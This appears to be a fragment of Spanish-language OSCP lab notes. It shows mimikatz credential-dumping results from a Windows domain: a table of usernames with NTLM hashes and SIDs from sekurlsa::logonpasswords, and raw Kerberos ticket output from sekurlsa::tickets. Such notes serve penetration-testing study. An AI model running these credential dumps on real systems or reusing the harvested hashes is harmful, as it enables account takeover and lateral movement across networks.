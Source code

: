 ```bash
mimikatz #

```
#### Informacion ordenada de sekurlsa::logonpasswords

| **Usuario**                     | **Dominio** | **NTLM**                         | **SID**                                        | **Notas**                         |
| ------------------------------- | ----------- | -------------------------------- | ---------------------------------------------- | --------------------------------- |
| celia.almeda                    | OSCP        | e728ecbadfb02f51ce8eed753f3ff3fd | S-1-5-21-2610934713-1581164095-2706428072-1105 | User con sesión interactiva       |
| Mary.Williams                   | MS01        | 9a3121977ee93af56ebd0ef4f527a35e | S-1-5-21-2114389728-3978811169-1968162427-1002 | Repetido en múltiples sesiones    |
| MS01\$                          | OSCP        | 0d94b937ef3562f185262da2d6494e65 | S-1-5-90-0-1                                   | Cuenta máquina, usado en kerberos |
| MS01\$                          | OSCP        | a913a6db3451444d9dfe26db3f8a8df4 | S-1-5-20                                       | Cuenta máquina, usado en kerberos |
| (varios: DWM-1, UMFD-1, UMFD-0) | OSCP        | a913a6db3451444d9dfe26db3f8a8df4 | S-1-5-96-0-x, S-1-5-18, S-1-5-20               | Son sesiones del servicio         |

#### Tickets:

```powershell
mimikatz # sekurlsa::tickets
                                                                                                                                                                                                                  
Authentication Id : 0 ; 2257479 (00000000:00227247)                                                                                                                                                               
Session           : Network from 0                                                                                                                                                                                
User Name         : eric.wallows                                                                                                                                                                                  
Domain            : OSCP                                                                                                                                                                                          
Logon Server      : DC01                                                                                                                                                                                          
Logon Time        : 7/25/2025 6:02:23 AM                                                                                                                                                                          
SID               : S-1-5-21-2610934713-1581164095-2706428072-7605                                                                                                                                                
                                                                                                                                                                                                                  
         * Username : eric.wallows                                                                                                                                                                                
         * Domain   : oscp.exam                                                                                                                                                                                   
         * Password : (null)                                                                                                                                                                                      

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 7/25/2025 6:02:24 AM ; 7/25/2025 6:17:24 AM ; 8/1/2025 5:04:09 AM
           Service Name (01) : ms01$ ; @ (null)
           Target Name  (10) : eric.wallows ; @ (null)
           Client Name  (10) : eric.wallows ; @ oscp.exam
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
           Session Key       : 0x00000001 - des_cbc_crc      
```